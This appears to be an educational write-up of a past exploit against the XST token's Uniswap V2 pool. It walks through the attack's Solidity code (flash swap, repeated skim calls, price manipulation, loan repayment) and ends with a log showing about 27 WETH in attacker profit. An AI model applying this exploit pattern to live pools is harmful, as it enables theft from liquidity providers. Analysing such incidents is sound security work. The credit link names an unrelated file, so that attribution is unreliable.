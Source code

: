 # XST

## What's XST?
XST is the platform's native cryptocurrency. Using XST, transaction validators acquire their rights to process transactions. These rights are tokenized as NFTs, movable assets known as StealthNodes, each of which is assigned a slot in a block validation schedule.

## Amount stolen
27.13 WETH


## Vulnerability
Skimming logic

## Analysis

The XST token on Uniswap was exploited through a combination of swapping, skimming, and manipulating the liquidity pool. The attacker initiated a flash swap, performed skimming operations to claim tokens, and manipulated prices by selling tokens back to the pool. This led to a significant profit in WETH for the attacker.

# Proof of concept (PoC) 

We check the balance of WETH within the XST pool on Uniswap and initiate a swap for twice that amount. This action triggers a callback, invoking our custom `uniswapV2Call` function.

```solidity
        amount = WETH.balanceOf(address(Pair2));
        Pair1.swap(amount * 2, 0, address(this), " ");
```


In our `uniswapV2Call` we proceed by getting the current reserves of the XST/WETH pair on Uniswap

![XTS Image](../images/XTS/label.drawio.png)



```solidity
uint256 amountSellWETH = WETH.balanceOf(address(this));
(uint256 reserve0, uint256 reserve1,) = Pair2.getReserves(); 
```

![XTS Image](../images/XTS/before.drawio.png)




### Calculate swap

To execute a swap on Uniswap, we adhere to the Uniswap formula, inserting the required parameters for swaps.
With the following parameters:

![XTS Image](../images/XTS/para1.drawio.png)

![XTS Image](../images/XTS/formula.drawio.png)
```solidity
  uint256 amountOutXST = amountSellWETH * 997 * reserve0 / (reserve1 * 1000 + amountSellWETH * 997);
```

Finally, swap the WETH tokens for XST tokens in the liquidity pool of Uniswap XST

```solidity
  WETH.transfer(address(Pair2), amountSellWETH);
  Pair2.swap(amountOutXST, 0, address(this), "");
```


### Skimming

The skim function in Uniswap V2 is used to claim accumulated tokens from a liquidity pool without removing liquidity. 
It's often used to retrieve additional tokens accumulated due to various operations, such as swaps.
   

```solidity
     XST.transfer(address(Pair2), XST.balanceOf(address(this)) / 8);   //(1/8th) of the XST balance held by the contract to the Uniswap pair, adding more liquidity to the pool.
        for (int256 i = 0; i < 15; i++) {
            Pair2.skim(address(Pair2));
        }

     Pair2.skim(address(this));
```


After skimming the tokens we sell the XST tokens to the WETH liquitiy pool, which allows us to manipulate the price within this flash swap.


```solidity
   XST.transfer(address(Pair2), XST.balanceOf(address(this)));
```

![XTS Image](../images/XTS/liq.drawio.png)

Now we repeat the first steps with new values:

### Calculate swap

![XTS Image](../images/XTS/para2.drawio.png)



![XTS Image](../images/XTS/after.drawio.png)


```solidity
   uint256 amountOutWETH = amountSellXST * 997 * reserve1 / (reserve0 * 1000 + amountSellXST * 997);
```


### Swap for profit

```solidity
   Pair2.swap(0, amountOutWETH, address(this), "");
```


### Repay flashloan

```solidity
   WETH.transfer(address(Pair1), (amount * 2) * 1000 / 997 + 1000);
```




### Profit

Since we initiated the flash swap with 78 WETH, and at the end of the flash swap had 105 WETH, we were able to send the profit back to our wallet


![XTS Image](../images/XTS/profit.drawio.png)



```
  Attacker WETH profit before exploit: 0.000000000000000000
  Attacker WETH profit after exploit: 27.130181656842120567
```


## Conclusion

Because the XST tokens balance in the pool was bigger, while the reserves stayed the same it caused the second swap to be manipulated in a way that led to extreme profits for the attacker.



**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
